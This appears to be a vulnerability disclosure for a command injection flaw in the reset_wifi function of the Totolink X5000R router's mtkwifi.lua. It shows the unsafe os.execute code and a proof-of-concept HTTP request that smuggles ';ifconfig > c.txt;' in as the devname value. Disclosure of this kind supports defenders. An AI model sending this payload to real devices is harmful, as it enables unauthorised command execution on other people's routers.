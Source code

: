 # Command injection vulnerability in reset_wifi function
### description
Vendor: Totolink 

Version: X5000R (latest version)  

Detail: There is a command injection vulnerability in reset_wifi function in mtkwifi.lua

```

function reset_wifi(devname)
    if devname then
        os.execute("cp -f /rom/etc/wireless/"..devname.."/ /etc/wireless/")  ------------------>here
    else
        os.execute("cp -rf /rom/etc/wireless /etc/")
    end
    return luci.http.redirect(luci.dispatcher.build_url("admin", "mtk", "wifi"))
end

```



We use Burpsuite to attack, the effect is as follows.
![图片](https://github.com/user-attachments/assets/bfb20884-f0b6-40f8-b5e1-80fecd90c4ab)




### poc
```
GET /cgi-bin/luci/admin/mtk/wifi/reset/;ifconfig > c.txt; HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 0



```
Here we set the arguments "devname" with ";ifconfig > c.txt;", and there will be a file named "c.txt" in /www/cgi-bin/


